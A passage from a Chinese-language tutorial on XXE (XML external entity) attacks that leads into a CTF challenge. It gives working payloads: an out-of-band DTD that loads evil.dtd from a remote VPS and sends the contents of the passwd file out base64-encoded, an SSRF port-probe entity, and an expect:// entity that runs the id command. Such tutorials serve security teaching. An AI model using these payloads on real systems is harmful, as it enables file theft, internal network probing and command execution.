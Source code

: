 然后，我们将构造的xxe代码，输入到输入框并提交

```
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://39.107.90.188/evil.dtd">
%remote;%int;%send;
]>
```

![1612766352_6020dc9018474b66555fa.png!small](https://image.3001.net/images/20210208/1612766352_6020dc9018474b66555fa.png!small)

然后在vps看一下监听

![1612762832_6020ced060138666abd22.png!small](https://image.3001.net/images/20210208/1612762832_6020ced060138666abd22.png!small)

出现base64加密的数据，用base64解密内容：

![1612762862_6020ceee0f6c2cf49a9c4.png!small](https://image.3001.net/images/20210208/1612762862_6020ceee0f6c2cf49a9c4.png!small)

成功读取了passwd文件内容。

上面构造的payload，调用了%remote ,%int ,%send三个参数实体。一次利用顺序就是通过%remote调用远程服务器vps上，我们常见的evil.dtd文件，然后%int调用了evil.dtd中的%file，而%file就会获取服务读取敏感文件，然后将%file的结果放到%send之后，然后我们调用%send，把读取的数据以get请求发送到服务器vps上，这就是外带数据的结果。

**2.3 端口探测**

正因为xml外部实体攻击利用的http协议，也就是说利用该请求探测内网端口的存活，从而可以进行ssrf攻击。构造代码：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM “http://127.0.0.1:8000"> 
]>
<user><username>&xxes;</username><password>admin</password></user>
```

**2.4命令执行**

前提是：在php环境中，如果说php扩展安装expect扩展，那么就能执行系统命令。构造代码：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "expect://id"> 
]>
<user><username>&xxes;</username><password>admin</password></user>
```

### 3.ctf题和vulnhub靶场(xxe)

**3.1 api调用**

是来自Jarvis OJ平台的一道web题型，地址http://web.jarvisoj.com:9882/

![1612762904_6020cf180ebfaf5111cc1.png!small](https://image.3001.net/images/20210208/1612762904_6020cf180ebfaf5111cc1.png!small)

看到题目说flag在/home/ctf/flag.txt中，那么就是访问这个目录了。
